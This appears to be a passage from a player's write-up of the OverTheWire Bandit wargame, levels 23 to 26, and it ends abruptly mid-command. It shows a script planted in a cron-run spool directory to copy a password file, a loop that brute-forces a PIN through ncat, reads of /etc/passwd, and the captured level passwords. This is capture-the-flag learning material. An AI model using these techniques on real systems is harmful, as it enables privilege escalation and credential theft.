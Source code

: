 ```
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

bandit23@bandit:~$ \
```
cat > /var/spool/bandit24/foo/myscript.sh << 'EOF'
#!/bin/bash

myname=$(whoami)
cat /etc/bandit_pass/$myname > /tmp/abs_pass_here
EOF

chmod +x /var/spool/bandit24/foo/myscript.sh
```

bandit23@bandit:~$ cat /tmp/abs_pass_here
```
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```


# Level 24 -> 25:
bandit24@bandit:~$ for i in {1000..9999}; do   echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | ncat localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4


# Level 25 -> 26:
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
```
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```
bandit25@bandit:~$ cat /usr/bin/showtext
```
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
```

bandit25@bandit:~$ ssh bandit26@localhost -p2220 -i bandit26.sshkey
v
